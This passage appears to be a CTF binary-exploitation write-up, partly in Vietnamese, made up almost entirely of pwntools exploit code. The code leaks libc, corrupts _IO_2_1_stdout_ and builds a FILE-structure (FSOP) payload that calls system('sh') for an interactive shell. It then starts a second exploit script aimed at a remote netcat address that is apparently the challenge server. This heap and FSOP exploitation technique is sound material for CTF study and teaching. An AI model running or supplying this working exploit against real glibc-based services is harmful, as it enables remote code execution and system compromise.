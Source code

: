 ```python
libc.address = u64(p.recvline()[:-1].ljust(8,b'\x00')) - libc.sym.puts
log.info(f'libc: {hex(libc.address)}')


# write to _IO_2_1_stdout

payload2 = b"A"*0x208 + p64(0x1e1)
payload2 += p64(0xfbad2c84) # flags
payload2 += p64(0) * 3 # read_ptr, read_end, read_base
payload2 += p64(libc.sym._IO_2_1_stdout_) # write_base
payload2 += p64(libc.sym._IO_2_1_stdout_) # write_ptr
payload2 += p64(libc.sym._IO_2_1_stdout_+0x100) # write_end
payload2 += p64(libc.sym._IO_2_1_stdout_) # buf_base
payload2 += p64(libc.sym._IO_2_1_stdout_+0x100) # buf_end

p.sendlineafter(b'Choice: ',b'1')
p.sendlineafter(b'name: ',payload2)

p.sendlineafter(b'Choice: ',b'2')


# build our FSOP payload
# some constants
stdout_lock = libc.address + 0x21ba70   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830 # add rdi, 0x10 ; jmp rcx

standard_FILE_addr = libc.sym._IO_2_1_stdout_
fs = FileStructure()
fs.flags = unpack(b"  " + b"sh".ljust(6, b"\x00"), 64)  # "  sh"
fs._IO_write_base = 0
fs._IO_write_ptr = 1
fs._lock = standard_FILE_addr-0x10
fs.chain = libc.sym.system
fs._codecvt = standard_FILE_addr
fs._wide_data = standard_FILE_addr - 0x48
fs.vtable = libc.sym._IO_wfile_jumps

p.sendafter(b'Your masterpiece: ',bytes(fs))



p.interactive()
```

1 cách khác nữa =))

```python
#!/usr/bin/env python3

from pwn import *
from time import sleep

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

DOCKER_PORT = 1337
REMOTE_NC_CMD    = "nc 43.217.80.203 33195"    # `nc <host> <port>`

```